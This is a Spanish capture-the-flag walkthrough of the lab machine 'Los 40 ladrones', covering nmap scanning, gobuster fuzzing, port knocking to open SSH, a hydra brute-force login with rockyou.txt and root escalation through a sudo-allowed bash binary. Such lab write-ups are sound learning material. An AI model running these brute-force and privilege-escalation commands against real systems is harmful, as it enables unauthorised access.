 # Los 40 ladrones
![image](https://github.com/user-attachments/assets/a47f0df8-8745-432f-83bc-3604923d79c9)

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
sudo nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.
```
```
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```
Como tenemos abierto el puerto 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
sudo nmap -sCV -p80 -vvv -oN versionPorts 172.17.0.2
```
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p80`: Escaneo de los puertos.
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.
```
```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
```
En la página principal vemos la página por defecto de Apache, por lo que vamos a hacer fuzzing con **gobuster**.

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```
![image](https://github.com/user-attachments/assets/cc49357e-34fe-4d07-a009-1113f95e770c)

![image](https://github.com/user-attachments/assets/527503ea-c5e6-49fe-99f5-d639bb52c61d)

Nos encontramos con este mensaje en el archivo txt que encontramos con **gobuster** llamado *qdefense.txt*.
A parte de que nos informa de un posible usuario **toctoc**, por la información del fichero podría tratarse de una secuencia de puertos que tendríamos que utilizar para obtener información. Deberemos utilizar la técnica de **Port Knocking**.

*Port Knocking es una técnica de seguridad utilizada para controlar el acceso a servicios en un servidor, como una forma de autenticación antes de permitir la conexión a puertos específicos. La idea principal es que los puertos en un servidor están "cerrados" y no responden a conexiones normales hasta que se haya completado una secuencia particular de intentos de conexión en puertos específicos, conocida como "knock sequence" o secuencia de golpeo.*

**¿Cómo funciona?**

*Secuencia de Golpeo:* El usuario debe intentar conectarse a una serie de puertos en un orden específico. Por ejemplo, primero al puerto 7000, luego al 8000, y finalmente al 9000. Estos intentos pueden hacerse con paquetes de TCP, UDP o ICMP.

*Registro de Golpes:* El servidor está monitoreando los intentos de conexión a estos puertos. No responde a los intentos, pero los registra.

*Verificación de la Secuencia:* Si el servidor detecta que se ha seguido la secuencia correcta de golpes en los puertos, puede activar un script o una regla de firewall que abra el puerto que el usuario quiere acceder (por ejemplo, el puerto 22 para SSH).

*Acceso Permitido:* Una vez que se permite el acceso, el usuario puede conectarse normalmente al puerto deseado.

Primero de todo instalaremos **knock**.
```
sudo apt update && sudo apt install -y knockd
```
Una vez instalado ejecutamos el siguiente comando.

```
knock -v 172.17.0.2 7000 8000 9000
```
![image](https://github.com/user-attachments/assets/14fc05a6-7afb-4e81-9f4a-7d38e09b7136)

Volvemos a hacer un escaneo de puertos y obtendremos acceso al puerto 22.
```
❯ sudo nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 172.17.0.2
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-30 11:27 CEST
Initiating ARP Ping Scan at 11:27
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 11:27, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 11:27
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 11:28, 26.52s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000076s latency).
Scanned at 2024-07-30 11:27:39 CEST for 26s
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```
## Explotación.

Ahora utilizamos **hydra** con el usuario **toctoc** obtenido en el archivo txt, para con fuerza bruta descubrir la contraseña.

```
hydra -l toctoc -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
![image](https://github.com/user-attachments/assets/8b84f5e5-9528-4c1b-9643-c304376d5eff)

Como hemos obtenido una contraseña, nos conectamos por ssh.
```bash
ssh toctoc@172.17.0.2
```
![image](https://github.com/user-attachments/assets/c2b615e2-42ad-4528-8b18-6987483ff1a6)

## Escalada de privilegios.

Comprobamos si hay algún binario que podamos explotar y nos encontramos con dos opciones.

![image](https://github.com/user-attachments/assets/08908efd-3ecd-49bb-80d7-58499eda20b7)

```bash
sudo -u root /opt/bash -p
```
Ya tenemos acceso como **root**.

![image](https://github.com/user-attachments/assets/d99869ef-ec35-4b98-8c21-bfdb13c2f684)












